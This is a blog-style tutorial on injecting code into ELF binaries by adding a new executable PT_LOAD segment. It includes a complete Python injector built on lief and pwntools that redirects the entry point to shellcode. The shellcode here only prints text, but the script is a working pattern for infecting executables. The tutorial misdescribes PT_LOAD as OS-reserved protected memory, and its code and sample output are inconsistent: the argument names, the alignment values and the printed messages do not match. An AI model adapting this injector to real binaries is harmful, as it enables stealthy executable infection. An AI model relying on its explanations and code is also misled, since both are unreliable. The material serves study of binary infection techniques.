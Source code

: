 ```yaml
---
title: "PT_LOAD Injection with Python"
classes: wide
header:
  teaser: /assets/images/Binary-Exploitation/Pt_Load-Injection/logo.png
ribbon: red
description: "PT_LOAD Injection is a technique used to inject malicious code into a computer system. This is done by storing the code in..."
categories:
  - Binary Exploitation

---
```


PT_LOAD Injection is a technique used to inject malicious code into a computer system. This is done by storing the code in a special type of memory called "protected memory" or "PT_LOAD memory," which is typically reserved for the operating system and is not accessible to user programs or applications. The injected code is executed by tricking the operating system into thinking it is a legitimate part of the system.

In terms of the ELF (Executable and Linkable Format) structure, PT_LOAD Injection typically involves modifying the ELF header to include the injected code as a new PT_LOAD segment. This segment is then executed as part of the normal program execution process. By modifying the ELF header in this way, the injected code can be executed without raising any red flags or triggering security measures.

![](/assets/images/Binary-Exploitation/Pt_Load-Injection/20221215_202340_7105OS_04_5.jpg)

In Oracle Docs, PT_LOAD described like this:

> PT_LOAD
>
> Specifies a loadable segment, described by p_filesz and p_memsz. The bytes from
> the file are mapped to the beginning of the memory segment. If the segment's memory size (p_memsz) is larger than the file size (p_filesz),
> the extra
> bytes are defined to hold the value 0 and to follow the segment's
> initialized area. The file size can not be larger than the memory size.
> Loadable segment entries in the program header table appear in ascending
> order, sorted on the p_vaddr member.

Here is our injector we create a new PT_LOAD segment and patch the target file with new PT_LOAD segment. While patching the binary with our PT_LOAD segment we should add the old entrypoint to end of our malicious code. With adding old entrypoint, we will not affect the orijinal process but load our malicious code.

## Steps

1. [lief](https://lief-project.github.io/) helps us while parsing **binary **with very simple function: **lief.parse()**

```
       binary = lief.parse(args.f)
```
2. crate a payload and convert it to assembly code with pwn lib's **asm()** function, assing it to **malcode**
3. add the old entrypoint to the end of malicious code

```
        payload = "Everybody looks here\n"
        malcode = asm("mov esi, edx")
        malcode += asm(shellcraft.i386.write(1, payload, len(payload)))
        malcode += asm(f"""
        mov edx, esi
        push {hex(binary.header.entrypoint)}
        ret
        """)
```
4. create a new segment with lief's **ELF.Segment()** function and load the **malcode**

```
        segment           = lief.ELF.Segment()
        segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
        segment.flags     = lief.ELF.SEGMENT_FLAGS.X
        segment.content   = bytearray(malcode)
        segment.alignment = 0x9876
```

5. add this new segment to **binary**

```
        binary.add(segment)
```

6. traverse in binary segments and find our segment and set binary's header.enrtypoint to our segment's virtual address

```
        for segment in binary.segments:
            if segment.type == lief.ELF.SEGMENT_TYPES.LOAD and segment.alignment == 0x999:
                binary.header.entrypoint = segment.virtual_address
                break
```

Full code:

```python
import lief
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description='PT_LOAD Injection PoC', conflict_handler='resolve')
    parser.add_argument('-file','--file', help="Target file", required = True)
    parser.add_argument('-out','--out', help="Output file")
    args = parser.parse_args()

    if len(sys.argv) < 2: 
        args.print_help()
        exit(0)
    try:
        binary = lief.parse(args.f)
  
        payload = "Everybody looks here\n"
        malcode = asm("mov esi, edx")
        malcode += asm(shellcraft.i386.write(1, payload, len(payload)))
        malcode += asm(f"""
        mov edx, esi
        push {hex(binary.header.entrypoint)}
        ret
        """)
  
        segment           = lief.ELF.Segment()
        segment.type      = lief.ELF.SEGMENT_TYPES.LOAD
        segment.flags     = lief.ELF.SEGMENT_FLAGS.X
        segment.content   = bytearray(malcode)
        segment.alignment = 0x9876
        binary.add(segment)
  
        for segment in binary.segments:
            if segment.type == lief.ELF.SEGMENT_TYPES.LOAD and segment.alignment == 0x9876:
                binary.header.entrypoint = segment.virtual_address
                break
  
        print("-> New EntryPoint: ", hex(binary.header.entrypoint))
  
        if args.out:
            binary.write(args.out)
        else:
            binary.write(args.file + "_edited")
    except:
        print("error occurred")
  
if __name__ == "__main__":
    main()
```





Output:

```
$   ./hello_world
Hello World!
$   python3 PT_LOAD_inj.py --file ./hello_world
Shellcode size:  53
-> New PT_LOAD segment added succesfully
$   chmod +x hello_world_edited
$   ./hello_world_edited
Everybody looks here!
Hello World!
```

Source code will be in my repo.

Sources:

[https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method](https://subscription.packtpub.com/book/networking-and-servers/9781782167105/4/ch04lvl1sec36/the-pt_note-to-pt_load-conversion-infection-method) (Only image)

[https://tmpout.sh/1/3.html](https://tmpout.sh/1/3.html)

[https://tmpout.sh/1/10/](https://tmpout.sh/1/10/)

[https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html](https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html)

[http://blog.k3170makan.com/2018/09/introduction-to-elf-format-part-ii.html](http://blog.k3170makan.com/2018/09/introduction-to-elf-format-part-ii.html)
